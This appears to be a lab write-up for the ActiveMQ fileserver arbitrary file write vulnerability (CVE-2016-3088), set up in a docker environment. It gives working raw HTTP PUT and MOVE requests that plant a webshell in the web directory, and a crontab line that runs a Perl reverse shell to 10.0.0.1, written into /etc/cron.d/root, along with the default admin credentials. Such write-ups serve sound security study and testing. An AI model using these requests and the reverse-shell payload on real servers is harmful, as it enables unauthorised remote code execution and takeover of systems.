



ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)¶
Environment setup¶
Enter following commands to build and run the vulnerability environment:
docker compose up -d
The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.
Visit http://your-ip:8161/ to see the web page, indicating that the environment has been successfully run.
Background brief¶
ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.
fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:
- Its usage rate is not high
- File operations are prone to vulnerabilities
Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.
In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.
Vulnerability Details¶
This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.
Write files such as cron or ssh key
- Write Webshell
- Write files such as cron or ssh key
- Write libraries and configuration files such as jar or jetty.xml
The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.
Let we talk about the above several methods.
Write Webshell¶
As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.
The default ActiveMQ account and password is admin. First, visit http://your-ip:8161/admin/test/systemProperties.jsp to view the absolute path of ActiveMQ:

Then upload Webshell:
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976
webshell...
Then move it to the API folder (/opt/activemq/webapps/api/s.jsp) in the Web directory:
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
Access Webshell (login required):

Write crontab, automate reverse shell¶
This is a relatively stable method. First upload the cron configuration file (note that the newline must be \n, not \r\n, otherwise the crontab execution will fail):
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Move it to /etc/cron.d/root:
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.
Write jetty.xml or jar¶
In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.
In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.
Not tested yet.